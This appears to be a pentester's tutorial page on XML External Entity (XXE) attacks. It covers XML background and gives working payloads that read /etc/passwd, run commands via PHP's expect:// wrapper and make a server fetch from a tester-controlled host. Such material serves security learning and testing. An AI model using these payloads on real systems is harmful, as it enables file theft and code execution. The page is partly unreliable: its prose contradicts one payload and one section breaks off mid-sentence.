 # XML External Entity Attack

With this attack you can do:

* Read local files
* Denial-of-service
* Perform port-scan
* Remote Code Execution

Where do you find it:

* Anywhere where XML is posted.

* Common with file-uploading functionality. For files that uses XML, like: docx, pptx, gpx, pdf and xml itself.

### Background XML

XML is a markup language, like HTML. Unlike HTML is does not have any predefined tags. It is the user that create the tags in the XML object. XML is just a format for storing and transporing data. XML uses tags and subtags, just like html. Or parents, children, and syblings. So in that sense it has the same tree-structure as html.

To define a XML-section/document you need the following tag to begin:

```
<?xml version="1.0" encoding="UTF-8"?>
```

Example of valid XML:

```
<?xml version="1.0"?>
    <change-log>
        <text>Hello World</text>
    </change-log>
```

[https://www.owasp.org/index.php/XML\_External\_Entity\_\(XXE\)\_Processing](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing)

### Syntax rule

* Must have root element
* Must have XML prolog

```
<?xml version="1.0" encoding="UTF-8"?>
```

* All elements must have closing tag
* Tags are case-sensitive
* XML Attributes must be quotes
* Special characters must be escaped correctly.

| &lt; | &lt; | less than |
| :--- | :--- | :--- |
| &gt; | &gt; | greater than |
| & | & | ampersand |
| ' | ' | apostrophe |
| " | " | quotation mark |

* Whitespace is perserved in XML

### Attack

So if an application receives XML to the server the attacker might be able to exploit an XXE. It could be sent as a GET, but it is more likely that it is send in a POST. An attack might look like this:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

The element can be anything, it's simply used to set up the tags. The xxe is the "variable" where the content of /dev/random get stored. And by dereferencing it in the foo-tag the content gets outputted.This way an attacker might be able to read files from the local system, like boot.ini or passwd. SYSTEM means that what is to be included can be found locally on the filesystem.

In php-applications where the expect module is loaded it is possible to get RCE. It is not a very common vulnerability, but still good to know.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Even if the data is not reflected backto the website it is still possible to exfiltrate files and data from the server. The technique is similar to how you exfiltrate the cookie in a Cross-Site Scripting attack, you send it in the url.

### Test for it

* Input is reflected

```
<?xml version="1.0"?><!DOCTYPE Any [<!ENTITY xxe "testdata">]><add>&xxe;</add>
```

If "testdata" gets reflected then it is vulnerable to XXE. If it gets reflected you can try to exfiltrate the data the following way:

```
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

Another way to test it is to see if the server tries to download the external script. First you need to set up your own webserver, and then wait for it to connect.

```
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://192.168.1.101/fil.txt">]><test>&xxe;</test>
```

## Blind XXE

In some cases, you won't receive any output from the 

### Exfiltrate data through URL

[https://blog.bugcrowd.com/advice-from-a-researcher-xxe/](https://blog.bugcrowd.com/advice-from-a-researcher-xxe/)

### References

[https://securitytraning.com/xml-external-entity-xxe-xml-injection-web-for-pentester/](https://securitytraning.com/xml-external-entity-xxe-xml-injection-web-for-pentester/)

[https://blog.bugcrowd.com/advice-from-a-researcher-xxe/](https://blog.bugcrowd.com/advice-from-a-researcher-xxe/)

[http://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html](http://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html)

[https://blog.zsec.uk/blind-xxe-learning/](https://blog.zsec.uk/blind-xxe-learning/)

